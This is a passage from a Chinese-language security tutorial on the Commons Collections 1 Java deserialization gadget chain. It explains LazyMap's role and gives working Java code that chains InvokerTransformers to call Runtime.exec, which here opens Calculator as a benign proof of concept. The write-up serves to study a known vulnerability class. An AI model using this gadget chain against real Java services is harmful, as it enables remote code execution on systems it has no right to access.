 > tips: 
> 使用反射方式获得Runtime对象，不直接传递Runtime对象。这是因为：
> 1. 几乎不可能有程序调用ConstantTransformer的transform并传入一个Runtime对象。
> 2. Runtime没有实现Serializable接口。


#### 2.1.2. 中间部分

我们希望在调用readObject的时候就触发rce，也就是说我们现在需要找到一个点调用了transform方法（如果能找到在readObject后就调用那是最好的），如果找不到在readObject里调用transform方法，那么就需要找到一条链，在readObject触发起点，接着一步步调用到了transform方法。

CommonsCollections1使用的是Lazymap：

- Lazymap

这里的this.factory在初始化时可控，当调用get方法时key不存在就调用this.factory.transform。

``` java
// org/apache/commons/collections/map/LazyMap.java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    ...
    protected final Transformer factory;
    ...
    public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
    ...
    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = factory;
    }
    ...
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
    ...
}
```

那么我们就可以通过LazyMap来延长我们的链。

``` java
// CommonsCollections1.java
public class CommonsCollections1 {
    public static void main(String[] args){
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"open /System/Applications/Calculator.app"})
        });

        Map hashMap = new HashMap();
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
        lazyMap.get(1);
    }
```